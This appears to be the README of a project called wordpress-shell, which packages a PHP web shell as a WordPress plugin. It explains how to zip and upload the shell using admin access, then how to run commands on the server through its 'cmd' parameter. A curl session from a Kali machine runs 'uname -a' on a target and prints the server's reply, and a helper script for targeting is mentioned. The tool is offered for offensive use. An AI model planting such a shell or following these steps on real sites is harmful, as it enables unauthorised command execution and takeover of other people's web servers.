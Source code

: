 wordpress-shell
===============

Cheap &amp; Nasty Wordpress Command Execution Shell.

Execute Commands as the webserver you are serving wordpress with!
Uploaded shell will probably be at <host>/wp-content/plugins/shell/shell.php

Install
=======
To install the shell, we are assuming you have administrative access to the Wordpress install and can install plugins.
Either upload the zip file located in the `dist/` directory, or create your own archive with:

```bash
λ wordpress-shell → λ git master → zip -r shell.zip shell.php
  adding: shell.php (deflated 39%)
  
λ wordpress-shell → λ git master → ls -lah shell.zip
-rw-r--r--  1 bob  staff   492B Aug 29 14:17 shell.zip
```

Once uploaded, navigate to `/wp-content/plugins/shell/shell.php` and provide the `cmd` argument.

Sample Usage
============

```bash
root@kali:~# curl -v "http://192.168.0.1/wp-content/plugins/shell/shell.php?$(python -c 'import urllib; print urllib.urlencode({"cmd":"uname -a"})')"
* About to connect() to 192.168.0.1 port 80 (#0)
*   Trying 192.168.0.1...
* connected
* Connected to 192.168.0.1 (192.168.0.1) port 80 (#0)
> GET /wp-content/plugins/shell/shell.php?cmd=uname+-a HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.0.1
> Accept: */*
> 
* additional stuff not fine transfer.c:1037: 0 0
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 200 OK
< Date: Thu, 28 Aug 2014 09:28:24 GMT
< Server: Apache/2.2.14 (Ubuntu)
< X-Powered-By: PHP/5.3.2-1ubuntu4
< Vary: Accept-Encoding
< Content-Length: 191
< Content-Type: text/html
< 
Linux wordpress-server 2.6.32-21-generic-pae #32-Ubuntu SMP Fri Apr 16 09:39:35 UTC 2010 i686 GNU/Linux
* Connection #0 to host 192.168.0.1 left intact
```

wpshell_helper.py
============

Shell helper to run commands more conviniently. Modify the address in the script for your target before running.
